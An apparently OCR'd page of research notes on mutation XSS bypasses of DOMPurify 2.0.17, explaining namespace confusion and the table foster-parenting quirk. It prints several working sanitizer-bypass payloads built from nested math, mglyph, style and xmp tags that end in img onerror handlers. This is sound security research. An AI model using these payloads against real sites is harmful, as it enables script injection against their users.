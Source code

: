 **Links**
*https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/*

**Instead of style xmp can be used:**
```js
DOMPurify.sanitize('<form><math><mtext></form><form><mglyph><xmp><img src=x onerror=alert(1)>',{ADD_TAGS:['xmp']})
```

#### Multiple variations of the same root cause namespace confusion:
**Payload:**
```html
<math><mtext><table><mglyph><style><img src=x onerror="alert(1)"></table> or
<math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
```
**Description for why table behaves that way:**
*	Table tag has a parsing quirk called foster parenting, it moves the children if they are not allowed as children, so here mglyph style and img are all moved before the table

Other variant: 
```html
<math><mtext><a title='one'><audio>aa<altglyphdef><animatecolor><filter><fieldset><a title='two'></fieldset>ccd</a>gg<mglyph><svg><mtext><style><a title='</style><img src=# onerror=alert(1)>'>
```



### Important Points to consider from now on:

1. [Main Root cause of MXSS in client-side sanitize](https://html.spec.whatwg.org/multipage/parsing.html#serialising-html-fragments:escapingString-3:~:text=It%20is%20possible%20that%20the%20output,not%20return%20the%20original%20tree%20structure)r: *It is possible that the output of this algorithm, if parsed with an [HTML parser](https://html.spec.whatwg.org/multipage/parsing.html#html-parser), will not return the original tree structure. Tree structures that do not roundtrip a serialize and reparse step can also be produced by the [HTML parser](https://html.spec.whatwg.org/multipage/parsing.html#html-parser) itself, although such cases are typically non-conforming.*  

   

   *P(P(D))  ≠   P(D)*

   Actually it is Pn(D)   ≠  Pn−1(D) 

   

   Non-Idempotency: that repeated parsing yields different results after each pass. This captures the essence of mutation in the browser's parsing.

   P here is parsing, D is the HTML string

   

   Example:

   D​=\<form\>\<div\>\</form\>\<form\>\</div\>\</form\> 

   

   P(D)=\<form\>\<div\>\</form\>\<form\>\</div\>\</form\>\</form\> 
